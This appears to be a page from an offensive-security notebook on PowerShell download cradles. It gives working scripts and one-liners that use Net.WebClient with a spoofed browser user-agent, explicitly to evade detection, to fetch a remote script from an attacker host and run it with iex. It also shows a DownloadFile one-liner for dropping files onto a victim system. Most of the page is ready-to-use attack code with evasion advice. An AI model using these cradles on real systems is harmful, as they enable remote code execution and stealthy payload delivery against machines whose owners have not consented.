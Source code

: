The "Net.WebClient" class allows us to specify a custom user-agent string when sending the request to our attacker URL. This can help us evade detection mechanisms that are flagging on abnormal user-agent strings crossing the wire.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
$downloader=New-Object System.Net.WebClient
$downloader.Headers.Add("user-agent", "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36")
$payload="http://192.168.0.10/Get-ProcessPaths.ps1"
$command=$downloader.DownloadString($payload)
iex $command
```
{% endcode %}

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# oneline run in cmd prompt terminal.
powershell.exe -Command $downloader=New-Object System.Net.WebClient; $downloader.Headers.Add('user-agent', 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/65.0.3325.146 Safari/537.36'); $payload='http://192.168.0.100:8000/test.ps1'; $command=$downloader.DownloadString($payload); iex $command

# we can see below that the User-Agent field was modified successfully.
```
{% endcode %}

<figure><img src=".gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

## B - Downloading Web Requests and saving the file locally

We can also use this method instead of `certutil -urlcache -split -f <http...>` to transfer files to victim.

> Note: this method is noisy and not recommended to stay stealthy, but can sometimes be a handy and quick method to download/transfer files to a target/victim system.

{% code overflow="wrap" lineNumbers="true" %}
```powershell
# oneliner to be run in cmd prompt terminal.
# we use the "DownloadFile" method which takes 2 arguments (download url and local_path_to_save_file).
powershell.exe -Command (New-Object System.Net.WebClient).DownloadFile('http://192.168.0.100:8000/test.ps1', 'C:\Users\vagrant\TEMP\test.ps1')
```
{% endcode %}
